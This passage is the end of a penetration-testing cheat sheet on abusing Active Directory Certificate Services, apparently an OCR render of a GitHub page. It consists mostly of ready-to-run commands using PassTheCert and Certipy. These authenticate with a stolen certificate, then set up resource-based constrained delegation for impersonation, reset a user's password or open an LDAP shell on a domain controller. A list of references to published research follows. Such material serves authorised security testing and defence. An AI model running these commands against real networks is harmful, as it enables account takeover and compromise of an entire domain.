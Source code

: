 * RBCD

```powershell
./PassTheCert.exe --server dc.contoso.local --cert-path C:\cert.pfx --rbcd --target "CN=DC,OU=Domain Controllers,DC=domain,DC=local" --sid <controlled_computer_SID>
```

* Reset password

```powershell
./PassTheCert.exe --server dc.contoso.local --cert-path C:\cert.pfx --reset-password --target "CN=user1,OU=Users,DC=domain,DC=local" --new-password <new_password>
```

#### Linux

For RBCD attack with passthecert.py

```bash
#Create a new computer account
python3 passthecert.py -action add_computer -crt user.crt -key user.key -domain contoso.local -dc-ip 'DC_IP'

#Add delegation rights
python3 passthecert.py -action write_rbcd -crt user.crt -key user.key -domain contoso.local -dc-ip 'DC_IP' -port 389 -delegate-to <created_computer> -delegate-from TARGET$

#Impersonation is now possible
```

With Certipy

```bash
certipy auth -pfx dc.pfx -dc-ip 'DC_IP' -ldap-shell
```

## References
* [SpecterOps blog](https://posts.specterops.io/certified-pre-owned-d95910965cd2)
* [SpecterOps whitepaper](https://specterops.io/wp-content/uploads/sites/3/2022/06/Certified_Pre-Owned.pdf)
* [The Hacker Recipes](https://www.thehacker.recipes/ad/movement/ad-cs)
* [Snovvcrash](https://ppn.snovvcrash.rocks/pentest/infrastructure/ad/ad-cs-abuse)
* [Certipy2.0 blog](https://research.ifcr.dk/certipy-2-0-bloodhound-new-escalations-shadow-credentials-golden-certificates-and-more-34d1c26f0dc6)
* [Certipy4.0 blog](https://research.ifcr.dk/certipy-4-0-esc9-esc10-bloodhound-gui-new-authentication-and-request-methods-and-more-7237d88061f7)
* [modifyCertTemplate](https://github.com/fortalice/modifyCertTemplate)
* [HTTP418 Infosec](https://http418infosec.com/ad-cs-the-certified-pre-owned-attacks)
* [Weak ACLs](https://github.com/daem0nc0re/Abusing_Weak_ACL_on_Certificate_Templates)
* [Sploutchy's ESC11 attack](https://blog.compass-security.com/2022/11/relaying-to-ad-certificate-services-over-rpc/)
* [Certipy](https://github.com/ly4k/Certipy)
* [Certify](https://github.com/GhostPack/Certify)